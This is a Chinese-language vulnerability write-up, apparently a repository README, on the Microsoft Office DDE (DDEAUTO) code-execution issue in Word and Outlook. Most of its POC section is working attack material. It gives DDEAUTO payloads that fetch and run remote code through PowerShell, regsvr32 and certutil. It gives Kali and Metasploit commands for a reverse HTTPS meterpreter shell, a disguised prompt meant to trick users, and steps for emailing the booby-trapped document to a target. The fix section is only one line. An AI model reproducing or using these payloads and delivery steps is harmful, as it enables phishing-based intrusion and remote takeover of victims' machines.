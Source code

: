 # Office DDE漏洞

## 漏洞简介

 Microsoft Office 动态数据交换功能 DDE 允许攻击者在目标设备执行任意代码。该功能无需用户启用宏命令或者内存溢出等问题即可展开攻击，但微软认为这个不是安全问题因此并未修复。微软公司认为 DDE 只是功能而非安全问题因此无法删除或修复，但可以在未来使用 DDE 功能时向用户发出提醒。

## 漏洞影响范围

Word
Excwl
Outlook

## 漏洞分析

Sensepost的安全研究专家在几天之前曾发布过一篇漏洞报告，根据该报告所描述的内容，当目标用户打开了一个经过特殊制作的Office文档时，该漏洞可以在不使用恶意宏的情况下在目标主机中触发命令执行。虽然攻击者在实现这种攻击的过程中，需要利用社会工程学技术来欺骗用户点击两到三个消息提示框中的“确认”按钮，但绝大多数的终端用户都还是非常好骗的。

研究人员发现，通过利用DDEAUTO功能所提供的参数，攻击者可以远程利用PowerShell在目标主机中下载恶意Payload。DDE是Inter-Process Communication（进程间通信-IPC）机制下的一种遗留功能，最早可以追溯到1987年，它可以与一个由其他基于Microsoft Windows程序所创建的文档建立一条动态数据交换（DDE）链接（当你更新DDE域时，DDE域会插入新的信息，链接文档将能够查看到该信息）。

SensePost的研究人员发现，除了指定一个类似Excel这样的应用程序之外，攻击者还可以将其他应用程序的任意参数当作DDE的第一个参数，并引用其他的argument作为第二个参数来使用（大小不能超过255个字节）。

## 漏洞POC

### Word

打开一个新的Word文档，按下组合键Ctrl+F9，在文档中出现的“{}”之后，将以下代码复制到两个大括号之间，然后保存成为一个文件：

    DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

更多Payload：

    DDEAUTO c:\Windows\System32\cmd.exe "/k powershell.exe -w hidden -nop -ep bypass Start-BitsTransfer -Source "http://willgenovese.com/hax/index.js"; -Destination "index.js" & start c:\WindowsSystem32cmd.exe /c cscript.exe index.js"
    DDEAUTO c:\windows\system32\cmd.exe "/k regsvr32 /s /n /u /i:http://willgenovese.com/hax/calc.sct scrobj.dll "
    DDEAUTO c:\windows\system32\cmd.exe "/k certutil -urlcache -split -f http://willgenovese.com/hax/test.exe && test.exe"
    DDEAUTO c:\Windows\System32\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://willgenovese.com/hax/evil.ps1');powershell -e $e "

除此之外，一个bash脚本并使用CactusTorch来自动化地在生成vbs/hta/js文件中生成反向HTTPS meterpreter Payload，你可以将它们插入到Word文档中以进行测试。脚本地址详见【CACTUSTORCH_DDEAUTO】目录。

研究发现，你还可以利用社会工程学技术来对程序所弹出的消息框信息进行处理，并增加用户点击“确认”的可能性。

    DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString('http://willgenovese.com/hax/evil.ps1'); # " "Microsoft Document Security Add-On"

虽然PowerShell webdl脚本可能更加容易实现一些，但是你可能会需要让你的Payload全部保存在一个文档之中，这样你就不需要再通过网络来调用额外的恶意代码了。Dave Kennedy已经更新了他的Unicorn Python脚本，该脚本可以生成一个msfvenom meterpreter Paload并当DDEAUTO被触发的时候得到一个base64 编码/解码的Payload。近期，Dave还修复了关于消息窗的问题。详情参见【unicorn】文件夹。

在Kali窗口中打开：

    IP=`ip -4 addr show eth0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'`
    git clone https://github.com/trustedsec/unicorn.git && cd unicorn
    python unicorn.py windows/meterpreter/reverse_https $IP 443 dde
    cat powershell_attack.txt  | xclip -selection clipboard | leafpad powershell_attack.txt

将上面这段Payload复制到Word文档之中，保存好文档之后将其发送给你的目标用户。接下来，在一个新的终端窗口中打开你的meterpreter handler来接收shell命令。

    IP=`ip -4 addr show eth0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'`
    msfconsole -qx "use exploit/multi/handler;set payload windows/meterpreter/reverse_https;set LHOST '$IP';set LPORT 443; set ExitOnSession false;exploit -j -z"

注：如果你需要修改你的外部IP地址，你可以更改其中的第一行代码：

    IP="$(dig +short myip.opendns.com @resolver1.opendns.com)"

### Outlook

你还可以在Outlook富文本电子邮件信息中触发这种功能，不过需要注意的是，对于Outlook 2013/2016来说，你需要在添加DDEAUTO Payload之前嵌入一个图片/表格/对象。

接下来跟之前一样，打开一个新的Word文档，然后按下键盘的组合键CTRL+F9，在文档中出现“{ }”之后将Payload拷贝到两个大括号之间，然后打开一个新的Outlook电子邮件信息。点击“格式化文本”（Format Text）标签，将消息格式修改为“富文本”（Rich Text）格式。

在消息内容（body）中任意复制粘贴一张图片文件。

从你的Word文档中复制DDEAuto Payload，将其粘贴到邮件内容（body）之中，然后输入收件人（目标用户）的邮件地址并点击发送按钮。接下来，Outlook会弹出一个DDE消息框，你只需要点击“取消”（No）即可。当你的目标用户收到这封电子邮件之后，除非他们点击了“回复”（Reply）按钮，否则将不会触发Payload的执行。如果他们点击了前两个消息框中的“确认”（Yes）按钮，则将会触发Payload的执行。

**更多情况参见：** [More1](http://willgenovese.com/office-ddeauto-attacks/) [More2](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/)

## 漏洞复现

参见上文。

## 修复方案

下载该注册表后双击打开再点击合并即可。
下载Disable_DDEAuto.reg文件。

